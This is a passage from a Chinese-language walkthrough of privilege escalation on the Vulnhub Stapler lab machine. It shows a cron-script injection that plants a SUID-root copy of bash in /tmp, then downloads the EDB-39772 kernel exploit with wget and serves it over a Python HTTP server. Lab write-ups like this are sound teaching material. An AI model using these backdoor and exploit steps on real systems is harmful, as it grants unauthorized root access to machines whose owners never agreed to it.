 接下来设置计划任务，将 /bin/bash 文件复制为 **/tmp/getroot** 文件，将其属主改为 **`root:root`**，并赋予 SUID 权限 **`-rwsr-xr-x`**：

```bash
echo "cp /bin/bash /tmp/getroot; chown root:root /tmp/getroot; chmod u+s /tmp/getroot" >> /usr/local/sbin/cron-logrotate.sh
```

![get_bash_with_suid](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/get_bash_with_suid.png)

等待 5 分钟后，触发计划任务执行，发现 /tmp/getroot 文件创建成功，并且其属主与权限均符合预期。

最后执行 `/tmp/getroot -p` 命令，能够以 root 用户权限启动 bash，即可获得 root 用户的命令执行环境：

![get_root_by_bash](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/get_root_by_bash.png)

## CVE-2016-4557 内核漏洞提权

获取靶机 shell 环境后，查看系统内核与发行版相关信息。结果显示，靶机系统内核版本为 **4.4.0-21-generic**，发行版为 **Ubuntu 16.04 LTS**：

```bash
uname -a
cat /proc/version
lsb_release -a
```

![system_info](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/system_info.png)

针对 Ubuntu 16.04 LTS 发行版，使用 searchsploit 工具搜索相关漏洞利用脚本。结果显示，**Linux Kernel 4.4.x 内核存在[本地权限提升漏洞（EDB-ID 39772）](https://www.exploit-db.com/exploits/39772)** ，并将其 EXP 说明文档复制到当前目录：

```bash
searchsploit ubuntu 16.04 privilege escalation
searchsploit -m 39772
```

![searchsploit_ubuntu](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/searchsploit_ubuntu.png)

根据文档下方提示，从 Github 下载 EXP 代码：

```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

![wget_exp_39772](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/wget_exp_39772.png)

使用 unzip 工具解压 39772.zip 文件后，文档提示需将 EXP 代码压缩包 **39772/exploit.tar** 上传至目标主机，再通过执行 `./compile.sh` 与 `./doubleput` 命令完成提权。

在 39772/ 目录下，通过 python 启动一个简单 HTTP 服务的端口监听：

```bash
python -m SimpleHTTPServer 8000
```

![unzip_39772](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/unzip_39772.png)
